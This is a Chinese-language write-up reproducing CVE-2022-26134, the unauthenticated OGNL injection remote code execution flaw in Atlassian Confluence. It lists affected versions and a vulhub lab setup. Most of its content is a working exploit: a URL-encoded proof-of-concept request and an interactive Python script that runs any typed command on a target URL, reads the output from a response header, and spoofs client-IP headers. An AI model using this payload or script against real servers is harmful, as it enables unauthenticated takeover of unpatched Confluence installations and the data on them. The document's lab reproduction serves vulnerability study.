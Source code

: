 # CVE-2022-26134

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence OGNL表达式注入命令执行漏洞



# 0x01 漏洞概述

Atlassian Confluence 是一款各企业广泛使用的 wiki 系统。在Atlassian Confluence Server and Data Center上存在OGNL 注入漏洞，远程攻击者在未经身份验证的情况下，可构造OGNL表达式进行注入，实现在Confluence Server或Data Center上执行任意代码。

# 0x02 影响范围

- 1.3.0 <= Confluence Server and Data Center < 7.4.17
- Confluence Server and Data Center 7.12.5
- 7.13.0 <= Confluence Server and Data Center < 7.13.7
- 7.14.0 <= Confluence Server and Data Center < 7.14.3
- 7.15.0 <= Confluence Server and Data Center < 7.15.2
- 7.16.0 <= Confluence Server and Data Center < 7.16.4
- 7.17.0 <= Confluence Server and Data Center < 7.17.4
- 7.18.0 <= Confluence Server and Data Center < 7.18.1

# 0x03 环境搭建

使用vulhub搭建

执行如下命令启动一个Confluence Server 7.13.6：

```
cd confluence/CVE-2022-26134
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 安装向导，选择“试用安装”，然后会要求填写许可证密钥，需要向 Atlassian 申请 Confluence Server 测试证书。

在数据库配置页面，填写数据库地址db、数据库名称confluence、用户名postgres、密码postgres。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## 方式一：通过POC

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```

![Untitled](image/Untitled%201.png)

其中使用到的OGNL表达式如下：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}。
```

## 方式二：通过脚本

```
# CVE编号：cve-2022-26134
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

def GetTime():
    return datetime.strftime(datetime.now(), '%Y-%m-%d %H:%M:%S')

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Pragma": "no-cache",
    "Priority": "u=0, i",
    "Sec-Ch-Ua": '"Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "Ali-Cdn-Real-Ip": "localhost",
    "Cache-Control": "no-cache",
    "Cdn-Real-Ip": "localhost",
    "Cdn-Src-Ip": "localhost",
    "Cf-Connecting-Ip": "localhost",
    "Client-Ip": "localhost",
    "Forwarded": "localhost",
    "Forwarded-For": "localhost",
    "Proxy-Client-Ip": "localhost",
    "True-Client-Ip": "localhost",
    "Wl-Proxy-Client-Ip": "localhost",
    "X-Cluster-Client-Ip": "localhost",
    "X-Forwarded": "localhost",
    "X-Forwarded-For": "localhost",
    "X-Originating-Ip": "localhost",
    "X-Real-Ip": "localhost",
    "X-Remote-Addr": "localhost",
    "X-Remote-Ip": "localhost"
}

def start():
    url = input("Set Target URL > ")
    print(f"[+] {GetTime()} Start executing the attack program!")
    while True:
        try:
            command = input("$ > ")
            res = requests.get(
                url=url + f"/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{quote(command)}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/",
                headers=headers, allow_redirects=False)
            if res.status_code == 302:
                print(f"[+] {GetTime()} 执行成功！")
                print(res.headers.get("X-Cmd-Response"))
            else:
                print(f"[-] {GetTime()} 执行失败！")
        except Exception as e:
            print(f"[-] {GetTime()} 执行失败,原因如下：", e)

if __name__ == '__main__':
    start()

```

![Untitled](image/Untitled%202.png)

